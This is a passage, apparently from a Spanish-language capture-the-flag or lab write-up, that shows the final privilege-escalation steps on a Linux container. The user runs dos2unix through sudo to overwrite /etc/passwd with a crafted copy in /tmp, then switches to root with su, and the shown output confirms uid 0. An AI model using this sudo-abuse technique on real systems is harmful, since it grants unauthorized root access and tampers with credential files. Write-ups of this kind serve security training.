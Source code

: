 Ejecutamos `dos2unix` con `sudo` y usando ambos archivos

~~~ bash
pepe@5c050710a415:/$ sudo /usr/bin/dos2unix -f -n "$passwd_new" "$passwd_old"
dos2unix: converting file /tmp/passwd to file /etc/passwd in Unix format...
~~~

Finalmente cambiamos al usuario `root` con el comando `su`

~~~ text
pepe@5c050710a415:/$ su

root@5c050710a415:/# id
uid=0(root) gid=0(root) groups=0(root)
~~~



